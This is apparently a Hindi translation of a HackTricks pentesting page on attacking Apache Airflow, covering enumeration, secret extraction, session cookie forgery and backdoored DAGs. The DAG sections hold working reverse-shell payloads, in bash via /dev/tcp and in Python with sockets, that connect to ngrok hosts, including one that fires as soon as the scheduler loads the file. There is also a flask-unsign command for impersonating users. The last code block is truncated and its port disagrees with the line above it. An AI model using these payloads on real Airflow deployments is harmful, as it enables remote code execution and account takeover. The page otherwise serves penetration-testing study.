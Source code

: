 # Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) **डेटा पाइपलाइनों या वर्कफ़्लो को व्यवस्थित और शेड्यूल करने के लिए एक प्लेटफ़ॉर्म के रूप में कार्य करता है**। डेटा पाइपलाइनों के संदर्भ में "व्यवस्थापन" का अर्थ विभिन्न स्रोतों से उत्पन्न जटिल डेटा वर्कफ़्लो को व्यवस्थित, समन्वयित और प्रबंधित करने की प्रक्रिया है। इन व्यवस्थित डेटा पाइपलाइनों का प्राथमिक उद्देश्य संसाधित और उपभोग करने योग्य डेटा सेट प्रदान करना है। ये डेटा सेट कई अनुप्रयोगों द्वारा व्यापक रूप से उपयोग किए जाते हैं, जिनमें व्यापार बुद्धिमत्ता उपकरण, डेटा विज्ञान और मशीन लर्निंग मॉडल शामिल हैं, जो सभी बड़े डेटा अनुप्रयोगों के कार्य करने के लिए आधारभूत हैं।

बुनियादी रूप से, Apache Airflow आपको **कोड के निष्पादन को शेड्यूल करने की अनुमति देगा जब कुछ** (घटना, क्रोन) **होगा**।

### Local Lab

#### Docker-Compose

आप **https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml** से **docker-compose कॉन्फ़िग फ़ाइल का उपयोग कर सकते हैं** ताकि एक पूर्ण apache airflow docker वातावरण लॉन्च किया जा सके। (यदि आप MacOS पर हैं, तो सुनिश्चित करें कि आप docker VM को कम से कम 6GB RAM दें)।

#### Minikube

**apache airflow को चलाने का एक आसान तरीका** इसे **minikube के साथ चलाना है**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow Configuration

Airflow अपनी कॉन्फ़िगरेशन में **संवेदनशील जानकारी** संग्रहीत कर सकता है या आप कमजोर कॉन्फ़िगरेशन पा सकते हैं:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Airflow पर हमला करने से पहले आपको **अनुमतियों का काम कैसे होता है** समझना चाहिए:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Attacks

#### Web Console Enumeration

यदि आपके पास **वेब कंसोल तक पहुंच** है, तो आप निम्नलिखित जानकारी में से कुछ या सभी तक पहुंच सकते हैं:

- **Variables** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
- **Connections** (कस्टम संवेदनशील जानकारी यहां संग्रहीत की जा सकती है)
- उन्हें `http://<airflow>/connection/list/` में एक्सेस करें
- [**Configuration**](./#airflow-configuration) (संवेदनशील जानकारी जैसे **`secret_key`** और पासवर्ड यहां संग्रहीत किए जा सकते हैं)
- **उपयोगकर्ताओं और भूमिकाओं** की सूची
- **प्रत्येक DAG का कोड** (जिसमें दिलचस्प जानकारी हो सकती है)

#### Retrieve Variables Values

Variables को Airflow में संग्रहीत किया जा सकता है ताकि **DAGs** उनके मानों को **एक्सेस** कर सकें। यह अन्य प्लेटफार्मों के रहस्यों के समान है। यदि आपके पास **पर्याप्त अनुमतियाँ** हैं, तो आप उन्हें GUI में `http://<airflow>/variable/list/` में एक्सेस कर सकते हैं।\
Airflow डिफ़ॉल्ट रूप से GUI में वेरिएबल का मान दिखाएगा, हालाँकि, [**इस**](https://marclamberti.com/blog/variables-with-apache-airflow/) के अनुसार, यह संभव है कि **वेरिएबल्स की एक सूची** सेट की जाए जिनका **मान** **अतिरिक्त चिह्नों** के रूप में **GUI** में दिखाई देगा।

![](<../../images/image (164).png>)

हालांकि, ये **मान** अभी भी **CLI** के माध्यम से **प्राप्त** किए जा सकते हैं (आपको DB एक्सेस की आवश्यकता है), **मनमाने DAG** निष्पादन, **API** के माध्यम से वेरिएबल्स एंडपॉइंट तक पहुंच (API को सक्रिय करना आवश्यक है), और **यहां तक कि GUI स्वयं!**\
GUI से उन मानों तक पहुंचने के लिए बस **वेरिएबल्स का चयन करें** जिन्हें आप एक्सेस करना चाहते हैं और **Actions -> Export** पर क्लिक करें।\
एक और तरीका है **छिपे हुए मान** पर **ब्रूटफोर्स** करना, इसे **खोज फ़िल्टरिंग** का उपयोग करके तब तक करें जब तक आप इसे प्राप्त न कर लें:

![](<../../images/image (152).png>)

#### Privilege Escalation

यदि **`expose_config`** कॉन्फ़िगरेशन **True** पर सेट है, तो **भूमिका उपयोगकर्ता** और **ऊपर** से **वेब में कॉन्फ़िग** को **पढ़** सकते हैं। इस कॉन्फ़िगरेशन में, **`secret_key`** प्रकट होता है, जिसका अर्थ है कि इस मान्य के साथ कोई भी उपयोगकर्ता **अपना स्वयं का हस्ताक्षरित कुकी बना सकता है ताकि किसी अन्य उपयोगकर्ता खाते का अनुकरण कर सके**।
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG बैकडोर (Airflow कार्यकर्ता में RCE)

यदि आपके पास **लिखने की अनुमति** है जहाँ **DAGs सहेजे जाते हैं**, तो आप बस **एक बना सकते हैं** जो आपको एक **रिवर्स शेल** भेजेगा।\
ध्यान दें कि यह रिवर्स शेल एक **airflow कार्यकर्ता कंटेनर** के अंदर निष्पादित होने वाला है:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG बैकडोर (Airflow शेड्यूलर में RCE)

यदि आप कुछ को **कोड की जड़ में निष्पादित करने के लिए सेट करते हैं**, तो इस लेखन के क्षण में, इसे **शेड्यूलर द्वारा निष्पादित किया जाएगा** DAG के फ़ोल्डर में रखने के कुछ सेकंड बाद।
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG Creation

यदि आप **DAG क्लस्टर के अंदर एक मशीन को समझौता करने में सफल होते हैं**, तो आप `dags/` फ़ोल्डर में नए **DAGs स्क्रिप्ट** बना सकते हैं और ये **DAG क्लस्टर के अंदर बाकी मशीनों में दोहराए जाएंगे**।

#### DAG Code Injection

जब आप GUI से एक DAG को निष्पादित करते हैं, तो आप इसे **आर्गुमेंट्स** पास कर सकते हैं।\
इसलिए, यदि DAG सही तरीके से कोडित नहीं है, तो यह **कमांड इंजेक्शन के लिए संवेदनशील हो सकता है।**\
यही इस CVE में हुआ: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

आपको **DAGs में कमांड इंजेक्शन की तलाश शुरू करने के लिए जो कुछ जानने की आवश्यकता है, वह यह है कि** **पैरामीटर्स** **कोड** **`dag_run.conf.get("param_name")`** के साथ **एक्सेस** किए जाते हैं।

इसके अलावा, वही संवेदनशीलता **वेरिएबल्स** के साथ भी हो सकती है (ध्यान दें कि पर्याप्त विशेषाधिकार के साथ आप GUI में **वेरिएबल्स के मान को नियंत्रित कर सकते हैं**)। वेरिएबल्स को **एक्सेस किया जाता है**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
यदि उन्हें उदाहरण के लिए एक bash कमांड के अंदर उपयोग किया जाता है, तो आप एक कमांड इंजेक्शन कर सकते हैं।

{{#include ../../banners/hacktricks-training.md}}
